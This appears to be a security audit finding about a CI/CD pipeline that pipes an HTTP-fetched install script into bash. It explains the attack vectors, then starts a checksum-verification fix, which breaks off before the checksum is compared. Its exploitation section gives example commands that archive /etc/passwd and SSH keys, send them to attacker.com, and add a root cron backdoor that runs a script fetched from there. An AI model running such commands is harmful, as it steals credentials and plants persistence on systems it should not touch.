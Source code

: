 5. **Elevated Privileges**: Since this runs in a CI/CD context, the script likely executes with administrative privileges, magnifying the impact of any compromise.

**Attack Surface and Vectors:**

1. **Network Path**: Any entity with access to the network path between the CI/CD server and the update server can potentially intercept and modify the traffic.

2. **DNS Infrastructure**: The system relies on DNS to resolve updates.acme.com. Compromise of DNS can redirect requests to a malicious server.

3. **Update Server**: Direct compromise of updates.acme.com would allow an attacker to serve malicious content.

4. **Content Delivery Network**: If the update server uses a CDN, compromising the CDN could also enable this attack.

**Exploitation Mechanics:**

When the CI/CD pipeline executes this script:

1. It makes an HTTP request to updates.acme.com to fetch install.sh
2. The response is streamed directly to bash's standard input
3. Bash executes each line of the script as it's received

If an attacker controls the response content, they can include arbitrary shell commands that will be executed with the privileges of the CI/CD pipeline. For example, they could include:

```bash
# Exfiltrate sensitive data
tar czf /tmp/secrets.tar.gz /etc/passwd /home/*/.ssh /etc/*config
curl -X POST -F "file=@/tmp/secrets.tar.gz" http://attacker.com/collect

# Add persistence
echo "*/5 * * * * curl -s http://attacker.com/backdoor.sh | bash" >> /var/spool/cron/root

# Continue with expected script behavior to avoid detection

```

This vulnerability is particularly dangerous because it operates within the trusted deployment pipeline, potentially allowing attackers to introduce malicious code that becomes part of the deployed applications.

# Remediation Steps
## Implement Script Integrity Verification

**Priority**: P0

Modify the deployment process to verify the integrity of downloaded scripts before execution:

```bash
#!/bin/bash

# Use HTTPS instead of HTTP for secure transport
REMOTE_SCRIPT_URL="https://updates.acme.com/install.sh"
REMOTE_CHECKSUM_URL="https://updates.acme.com/install.sh.sha256"
TEMP_SCRIPT="/tmp/install_$$.sh"

# Download the script to a temporary file instead of piping directly
curl -s "$REMOTE_SCRIPT_URL" -o "$TEMP_SCRIPT"

# Fetch the expected checksum
EXPECTED_CHECKSUM=$(curl -s "$REMOTE_CHECKSUM_URL")

# Calculate the actual checksum of the downloaded script
ACTUAL_CHECKSUM=$(sha256sum "$TEMP_SCRIPT" | awk '{print $1}')

```